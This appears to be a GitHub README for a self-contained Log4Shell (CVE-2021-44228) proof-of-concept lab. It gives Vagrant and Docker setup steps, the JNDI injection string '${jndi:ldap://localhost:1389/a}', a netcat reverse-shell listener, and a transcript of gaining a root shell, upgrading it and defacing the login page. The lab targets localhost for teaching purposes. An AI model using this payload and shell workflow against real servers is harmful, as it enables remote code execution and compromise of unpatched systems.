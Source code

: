# Log4Shell PoC

rm_poc_log4shell

## PreReqs

- Windows system with minimum 8GB RAM
- Installed:
  - Visual Studio Code
  - git
  - virtualbox
  - vagrant
- download vulnerable [jdk-8u20](https://mega.nz/file/cFQF3SpC#U01e3y3L2f-_lYzL8s5a_x11C4n7IJYMbztS4x2mT-o)

## VM environment

1. clone repo: <https://github.com/ttgithg/rm_poc_log4shell>

    ```bash
    git clone git@github.com:ttgithg/rm_poc_log4shell
    ```

2. Put downloaded jdk-file in cloned github repo: `\rm_poc_log4shell\provisioning\files\log4jlab`

3. Open Visual Studio Code and open the cloned repo `rm_poc_log4shell` as a working folder

4. Open the root of `rm_poc_log4shell` in an Integrated Terminal

5. Check status: `vagrant status`

6. Create VM + provision: `vagrant up deblab`

    **Note**: In case of errors correct them and try provisioning again with: `vagrant provision deblab`

7. Connect with ssh: `vagrant ssh deblab`

## Lab environment

Open the deblab GUI and login with debuser.
We will need 3 terminals for this setup to manage a log4shell hack.
We open the browser on the localhost:8080 and past the given request: `${jndi:ldap://localhost:1389/a}`

### Summary

```bash
# Terminal1: netcat listener
nc -lvnp 9001

# Terminal2: Launch exploit
cd /log4jlab
sudo python3 poc.py --userip localhost --webport 8000 --lport 9001

# Terminal3: vulnerable application
cd /log4jlab
docker build -t log4j-shell-poc .
docker run --network host log4j-shell-poc

# browser: paste request: ${jndi:ldap://localhost:1389/a}
http://localhost:8080/
```

### Extended walkthrough

#### Terminal 1: netcat listener

```bash
┌──(debuser㉿deblab)-[~]
└─$ nc -lvnp 9001
listening on [any] 9001 ...
```

#### Terminal 2: Launch exploit

```bash
┌──(debuser㉿deblab)-[/log4jlab]
└─$ cd /log4jlab/; ls
Dockerfile     jdk-8u20-linux-x64.tar.gz  requirements.txt
Exploit.class  LICENSE                    target
Exploit.java   poc.py                     vulnerable-application
jdk1.8.0_20    README.md

┌──(debuser㉿deblab)-[/log4jlab]
└─$ sudo python3 poc.py --userip localhost --webport 8000 --lport 9001       

[!] CVE: CVE-2021-44228                                                      
[!] Github repo: https://github.com/kozmer/log4j-shell-poc                   
                                                                             
[+] Exploit java class created success
[+] Setting up LDAP server
                                                                             
[+] Send me: ${jndi:ldap://localhost:1389/a}
                                                                             
[+] Starting Webserver on port 8000 http://0.0.0.0:8000
Listening on 0.0.0.0:1389
```

#### Terminal 3: create vulnerable application

```bash
┌──(debuser㉿deblab)-[/log4jlab]
└─$ cd /log4jlab/

┌──(debuser㉿deblab)-[/log4jlab]
└─$ docker build -t log4j-shell-poc .
Sending build context to Docker daemon  574.8MB
Step 1/5 : FROM tomcat:8.0.36-jre8
8.0.36-jre8: Pulling from library/tomcat
8ad8b3f87b37: Pull complete 
751fe39c4d34: Pull complete 
b165e84cccc1: Pull complete 
acfcc7cbc59b: Pull complete 
04b7a9efc4af: Pull complete 
b16e55fe5285: Pull complete 
8c5cbb866b55: Pull complete 
96290882cd1b: Pull complete 
85852deeb719: Pull complete 
ff68ba87c7a1: Pull complete 
584acdc953da: Pull complete 
cbed1c54bbdf: Pull complete 
4f8389678fc5: Pull complete 
Digest: sha256:e6d667fbac9073af3f38c2d75e6195de6e7011bb9e4175f391e0e35382ef8d0d
Status: Downloaded newer image for tomcat:8.0.36-jre8
 ---> 945050cf462d
Step 2/5 : RUN rm -rf /usr/local/tomcat/webapps/*
 ---> Running in 118c9f3dab57
Removing intermediate container 118c9f3dab57
 ---> 0a7905e32954
Step 3/5 : ADD target/log4shell-1.0-SNAPSHOT.war /usr/local/tomcat/webapps/ROOT.war
 ---> c038eb1ce771
Step 4/5 : EXPOSE 8080
 ---> Running in e44c024ec983
Removing intermediate container e44c024ec983
 ---> 58cbb415ad3a
Step 5/5 : CMD ["catalina.sh", "run"]
 ---> Running in d10ead2ef23b
Removing intermediate container d10ead2ef23b
 ---> 989227232ea8
Successfully built 989227232ea8
Successfully tagged log4j-shell-poc:latest

┌──(debuser㉿deblab)-[/log4jlab]
└─$ docker run --network host log4j-shell-poc                                
25-Apr-2022 00:10:33.847 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Server version:        Apache Tomcat/8.0.36
25-Apr-2022 00:10:33.848 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Server built:          Jun 9 2016 13:55:50 UTC
25-Apr-2022 00:10:33.848 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Server number:         8.0.36.0
25-Apr-2022 00:10:33.848 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log OS Name:               Linux
25-Apr-2022 00:10:33.848 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log OS Version:            5.10.0-kali3-amd64
25-Apr-2022 00:10:33.849 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Architecture:          amd64
25-Apr-2022 00:10:33.849 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Java Home:             /usr/lib/jvm/java-8-openjdk-amd64/jre
25-Apr-2022 00:10:33.849 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log JVM Version:           1.8.0_102-8u102-b14.1-1~bpo8+1-b14
25-Apr-2022 00:10:33.849 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log JVM Vendor:            Oracle Corporation
25-Apr-2022 00:10:33.849 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log CATALINA_BASE:         /usr/local/tomcat
25-Apr-2022 00:10:33.849 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log CATALINA_HOME:         /usr/local/tomcat
25-Apr-2022 00:10:33.850 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Command line argument: -Djava.util.logging.config.file=/usr/local/tomcat/conf/logging.properties
25-Apr-2022 00:10:33.850 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Command line argument: -Djava.util.logging.manager=org.apache.juli.ClassLoaderLogManager
25-Apr-2022 00:10:33.850 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Command line argument: -Djdk.tls.ephemeralDHKeySize=2048
25-Apr-2022 00:10:33.850 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Command line argument: -Djava.endorsed.dirs=/usr/local/tomcat/endorsed
25-Apr-2022 00:10:33.850 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Command line argument: -Dcatalina.base=/usr/local/tomcat
25-Apr-2022 00:10:33.851 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Command line argument: -Dcatalina.home=/usr/local/tomcat
25-Apr-2022 00:10:33.851 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Command line argument: -Djava.io.tmpdir=/usr/local/tomcat/temp
25-Apr-2022 00:10:33.851 INFO [main] org.apache.catalina.core.AprLifecycleListener.lifecycleEvent Loaded APR based Apache Tomcat Native library 1.2.7 using APR version 1.5.1.
25-Apr-2022 00:10:33.851 INFO [main] org.apache.catalina.core.AprLifecycleListener.lifecycleEvent APR capabilities: IPv6 [true], sendfile [true], accept filters [false], random [true].
25-Apr-2022 00:10:33.855 INFO [main] org.apache.catalina.core.AprLifecycleListener.initializeSSL OpenSSL successfully initialized (OpenSSL 1.0.2h  3 May 2016)
25-Apr-2022 00:10:33.919 INFO [main] org.apache.coyote.AbstractProtocol.init Initializing ProtocolHandler ["http-apr-8080"]
25-Apr-2022 00:10:33.929 INFO [main] org.apache.coyote.AbstractProtocol.init Initializing ProtocolHandler ["ajp-apr-8009"]
25-Apr-2022 00:10:33.930 INFO [main] org.apache.catalina.startup.Catalina.load Initialization processed in 380 ms
25-Apr-2022 00:10:33.947 INFO [main] org.apache.catalina.core.StandardService.startInternal Starting service Catalina
25-Apr-2022 00:10:33.947 INFO [main] org.apache.catalina.core.StandardEngine.startInternal Starting Servlet Engine: Apache Tomcat/8.0.36
25-Apr-2022 00:10:33.968 INFO [localhost-startStop-1] org.apache.catalina.startup.HostConfig.deployWAR Deploying web application archive /usr/local/tomcat/webapps/ROOT.war
25-Apr-2022 00:10:34.099 WARNING [localhost-startStop-1] org.apache.tomcat.util.descriptor.web.WebXml.setVersion Unknown version string [4.0]. Default version will be used.
25-Apr-2022 00:10:34.368 INFO [localhost-startStop-1] org.apache.jasper.servlet.TldScanner.scanJars At least one JAR was scanned for TLDs yet contained no TLDs. Enable debug logging for this logger for a complete list of JARs that were scanned but no TLDs were found in them. Skipping unneeded JARs during scanning can improve startup time and JSP compilation time.
25-Apr-2022 00:10:34.389 INFO [localhost-startStop-1] org.apache.catalina.startup.HostConfig.deployWAR Deployment of web application archive /usr/local/tomcat/webapps/ROOT.war has finished in 420 ms
25-Apr-2022 00:10:34.390 INFO [main] org.apache.coyote.AbstractProtocol.start Starting ProtocolHandler ["http-apr-8080"]
25-Apr-2022 00:10:34.408 INFO [main] org.apache.coyote.AbstractProtocol.start Starting ProtocolHandler ["ajp-apr-8009"]
25-Apr-2022 00:10:34.409 INFO [main] org.apache.catalina.startup.Catalina.start Server startup in 478 ms
```

#### Browser

- Open URL: <http://localhost:8080/>
- paste `${jndi:ldap://localhost:1389/a}` in the `username` section
- press `login`

![poc log4shell](img/deblabimg/1.poc-log4shell.png)

The hack succeeded when the netcat listener gives:

```bash
┌──(debuser㉿deblab)-[~]
└─$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 48496
```

### Hack along

You can check your access and log4shell

```bash
┌──(debuser㉿deblab)-[~]
└─$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 48496
whoami
root
/usr/bin/script -qc /bin/bash /dev/null
root@deblab:/usr/local/tomcat# ^Z
[1]+  Stopped                 nc -lvnp 9001
┌──(debuser㉿deblab)-[~]
└─$ stty raw -echo; fg; reset
nc -lvnp 9001

root@deblab:/usr/local/tomcat# sed -i 's/Hello Again!/<<< LOG4SHELL PoC >>>/g' webapps/ROOT/index.jsp

root@deblab:/usr/local/tomcat# sed -i 's/Login/HACKED/g' webapps/ROOT/index.jsp

# Refresh browser ;-)
```

### References

- automated environment using ansible with a [vagrant skeleton](https://github.com/bertvv/ansible-skeleton) built by bertvv
- log4j CVE-2021-44228 poc [githubRepo](https://github.com/kozmer/log4j-shell-poc) built by kozer
- log4j CVE-2021-44228 testing tools [URL](https://log4shell.tools/) and [gitRepo](https://github.com/alexbakker/log4shell-tools) built by Alexander Bakker
